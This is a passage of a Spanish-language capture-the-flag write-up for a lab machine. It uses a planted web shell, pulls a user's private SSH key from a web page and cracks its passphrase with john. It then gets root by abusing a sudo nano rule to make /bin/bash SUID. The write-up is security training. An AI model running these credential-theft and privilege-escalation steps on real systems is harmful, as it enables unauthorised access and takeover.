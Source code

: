     ```bash
    curl localhost:52846/s4vishell.php
    #Output
    joanna
    ```

En el fichero `main.php` vemos que hace un echo de la id_rsa de joanna. Lo miramos con curl

```bash
curl localhost:52846/main.php
```

copiamos la key en un fichero joanna_rsa en nuestra maquina de ataquante y nos connectamos con ssh

```bash
chmod 600 joanna_rsa
ssh joana@10.10.10.171 -i joanna_rsa
```

Aqui vemos que la id_rsa esta protegida por una contraseña. Crackeamos la llave.

#### Crackeamos la id_rsa con ssh2john {-}

```bash
/usr/share/john/ssh2john.py joanna_rsa > hash
john --wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui ya tenemos la contraseña de la id_rsa de joanna y nos podemos conectar

```bash
ssh -i joanna_rsa joanna@10.10.10.171
Enter passphrase
```

y ya podemos leer la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podemos ejecutar nano /opt/priv como el usuario root sin proporcionar contraseña.

```bash
sudo -u root nano /opt/priv

Ctrl+r
Ctrl+x

chmod 4755 /bin/bash

Enter
```

Ya podemos ver que la `/bin/bash` tiene privilegios SUID y que podemos convertirnos en root para leer la flag

```bash
ls -la /bin/bash
bash -p
whoami
#Output
root
```
